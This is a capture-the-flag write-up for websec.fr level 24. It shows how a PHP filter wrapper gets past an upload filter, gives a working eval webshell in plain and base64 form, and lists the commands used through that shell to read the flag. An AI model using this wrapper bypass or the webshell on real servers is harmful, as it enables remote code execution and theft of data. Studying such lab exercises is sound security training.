


Here we can use php wrappers to upload our webshell.

This is a simple write and output from a file.
```php
file_put_contents("test.php", base64_encode("encoded_data"));
echo file_get_contents("test.php");
```
> ZW5jb2RlZF9kYXRh

However, when we use wrappers, we can see it base64-decoded the data we pass to the function.
```php
file_put_contents("php://filter/convert.base64-decode/resource=test.php", base64_encode("encoded_data"));
echo file_get_contents("test.php");
```
> encoded_data

By this way we can bypass this WAF checking
```php
if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  
    file_put_contents($_GET['filename'], $data);
    die ('<meta http-equiv="refresh" content="0; url=.">');
}
```

So, our webshell will be `<?php eval($_GET[0].';'); ?>`, and when base64 encoded: `PD9waHAgZXZhbCgkX0dFVFswXS4nOycpOyA/Pg==`


I am not using `system` or other functions because they are disabled, so we'll use `eval`.

Now, we just need to find the flag, by sending our commands to: `http://websec.fr/level24/uploads/SESS_ID/webshell.php?0=our_payload`

Let's give commands and see output:

1. `print_r(getcwd())`
> /uploads/so71e1kv0ue20hb4n5a5lt816ov1qutd

2.  `print_r(scandir("../../"))`
> no output

maybe we need to change the current dir
3. `chdir("../");chdir("../");print_r(scandir("."))` 
> Array
(
    [0] => .
    [1] => ..
    [2] => clean_up.php
    [3] => flag.php
    [4] => index.php
    [5] => php-fpm.sock
    [6] => source.php
    [7] => uploads
    [8] => var
)

I tried to change two directories at once, `chdir("../../")`, but it didn't work, probably some restrictions.

4. `chdir("../");chdir("../");readfile("flag.php");`
> WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}



**Flag:** ***`WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}`*** 
